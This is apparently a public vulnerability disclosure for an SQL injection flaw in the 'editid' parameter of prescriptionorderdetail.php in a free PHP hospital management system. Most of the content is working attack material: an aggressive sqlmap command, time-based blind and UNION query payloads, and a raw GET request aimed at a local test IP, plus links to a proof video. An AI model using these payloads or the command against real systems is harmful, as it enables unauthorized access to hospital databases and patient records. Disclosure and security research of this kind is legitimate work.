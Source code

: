 **[Hospital-Management-System v1.0-SQLi](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![Snipaste_2022-11-05_04-51-46](https://user-images.githubusercontent.com/86427788/200073296-d5708d63-0220-4285-ac3c-97f8185d5352.png)


### Description:
---
The vulnerability page is ```prescriptionorderdetail.php```

```http://your-ip/hms/prescriptionorderdetail.php```


Hospital-Management-System v1.0  

The ```editid``` parameter in the ```prescriptionorderdetail.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -r `Your post packet.txt` --random-agent --risk=3 --level=3 -dbs --batch

[+] Payloads:

```
Parameter: editid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: editid=1' AND (SELECT 5263 FROM (SELECT(SLEEP(5)))hjmA)-- DDqR

    Type: UNION query
    Title: Generic UNION query (random number) - 7 columns
    Payload: editid=1' UNION ALL SELECT 5151,5151,5151,5151,CONCAT(0x7176787a71,0x434e63636d5548486757786e4d65674d6d465142434c634858734d575a586a51774551557a6a6375,0x71626b6271),5151,5151--
```

[+]GET request package

```
GET /HMS/prescriptionorderdetail.php?editid=1 HTTP/1.1
Host: 192.168.92.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
### In action:
---

![Snipaste_2022-11-05_05-01-29](https://user-images.githubusercontent.com/86427788/200074116-8f3e8d3e-59a0-48c4-ae9c-abccf232e01f.png)


### Proof and Exploit:
---

https://user-images.githubusercontent.com/86427788/200102284-a63bdf27-4527-467a-903a-eb57057e87c5.mp4



